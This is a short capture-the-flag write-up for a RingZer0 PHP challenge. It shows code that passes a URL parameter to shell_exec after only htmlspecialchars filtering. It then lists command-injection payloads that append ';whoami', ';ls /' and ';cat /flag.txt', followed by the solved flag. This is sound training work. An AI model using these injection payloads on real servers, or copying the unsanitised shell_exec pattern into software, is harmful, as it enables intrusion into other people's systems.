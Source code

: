 <h1>PHP feature or 0day?</h1>
<h3>Description</h3>
<label>http://challenges.ringzer0ctf.com:10240/</label>
<h3>Solution</h3>
<label>Source code php</label>

```php
<?php
ini_set('error_displays', 0);
$ip = htmlspecialchars($_GET['url'], ENT_QUOTES);

$f = fsockopen($ip, 80, $errno, $errstr, 5);
if($f) {
	$result = shell_exec('ping -c 4 ' . $ip);
	echo '<div class="alert alert-success">' . nl2br($result) . '</div>';
} else {
	echo '<div class="alert alert-danger">' .$errstr . '</div>';
}
?>
```
<label>htmlspecialchars ENT_QUOTES mem-filter character & < > " '</label>
<pre>
&amp;  = &amp;amp;
&lt;  = &amp;lt;
&gt;  = &amp;gt;
&quot;  = &amp;quot;
&#039;  = &amp;#039;
</pre>
<label>Payload</label>
<pre>
127.0.0.1:80;whoami
127.0.0.1:80;ls /
127.0.0.1:80;cat /flag.txt
</pre>
<h3>Flag</h3>
<pre>
FLAG-v0195ZH325rG9m20043Blm92LeRE77aF
</pre>
